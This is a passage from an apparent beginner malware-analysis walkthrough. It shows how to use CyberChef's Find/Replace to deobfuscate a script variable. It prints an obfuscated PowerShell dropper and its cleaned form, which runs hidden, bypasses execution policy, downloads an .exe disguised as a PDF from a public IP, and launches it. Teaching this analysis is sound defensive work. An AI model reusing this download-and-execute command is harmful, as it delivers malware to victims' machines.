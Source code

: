 This is much better, isn't it?

Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. Our interest here would be the value of **Sqtnew** because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

```shell
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

We will copy the first value of **Sqtnew** and paste it into **CyberChef's** input area. You can open a local copy of CyberChef or go to this [link](https://gchq.github.io/CyberChef/) to access the online version. Use whichever works for you.

Next, select the **Find/Replace** operation twice. Looking back at the script, the 2nd and 3rd values of Sqtnew have a command to replace **\*** with **""** and **^** with **""**. We would assume that the **""** means there is no value. So, with our first operation selected, we put the value **\*** and selected **SIMPLE STRING** as additional parameters. In contrast, **we did not put anything on the Replace box** or have any value. The same applies to our second operation: we put the value **^** and selected SIMPLE STRING, and the replace box has no value. See the image below.

<img src="../../_resources/91ccd67454f30fe749f24f83a6156b1d.png" alt="91ccd67454f30fe749f24f83a6156b1d.png" width="990" height="419" style="display:block; margin: 0 auto;">

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

```shell
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```
